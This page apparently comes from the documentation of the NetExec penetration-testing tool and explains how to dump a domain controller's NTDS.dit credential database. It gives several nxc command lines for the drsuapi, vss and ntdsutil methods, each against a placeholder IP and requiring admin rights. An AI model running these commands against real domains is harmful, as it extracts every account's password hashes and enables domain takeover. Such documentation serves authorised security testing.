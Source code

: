 # Dump NTDS.dit

### Dump the NTDS.dit from target DC using methods from secretsdump.py

{% hint style="danger" %}
Requires Domain Admin or Local Admin Priviledges on target Domain Controller
{% endhint %}

```
2 methods are available:   
(default) 	drsuapi -  Uses drsuapi RPC interface create a handle, trigger replication, and combined with   
						additional drsuapi calls to convert the resultant linked-lists into readable format  
			vss - Uses the Volume Shadow copy Service  
```

```
#~ nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds
#~ nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds --users
#~ nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds --users --enabled
#~ nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds vss
```

{% hint style="info" %}
You can also DCSYNC with the computer account of the DC
{% endhint %}

There is also the ntdsutil module that will use ntdsutil to dump NTDS.dit and SYSTEM hive and parse them locally with secretsdump.py&#x20;

```
#~ nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' -M ntdsutil
```

Remember to play this music everytime you got DA

{% embed url="https://www.youtube.com/watch?v=SyjUwhBYa6Q" %}

